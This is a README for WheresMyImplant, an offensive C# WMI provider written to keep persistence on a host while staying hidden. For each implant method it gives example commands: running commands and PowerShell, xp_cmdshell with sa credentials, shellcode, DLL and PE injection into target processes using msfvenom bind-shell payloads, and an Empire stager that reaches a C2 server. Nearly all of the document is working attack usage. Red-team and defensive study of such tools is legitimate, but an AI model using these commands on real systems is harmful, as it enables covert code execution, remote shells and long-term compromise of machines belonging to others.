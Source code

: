 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

### Methods

* #### RunCMD
  * **Parameters:** Command, Parameters
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * **Parameters:** Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * **Parameters:** Server, Database, UserName, Password, Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * **Parameter:** ShellCodeString, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * **Parameters:** Library, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * **Parameters:** FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * **Parameters:** PeString, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * **Parameters:** WmiClass, FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * **Parameters:** Server, StagingKey, Language
  * **Example:** <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  };


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
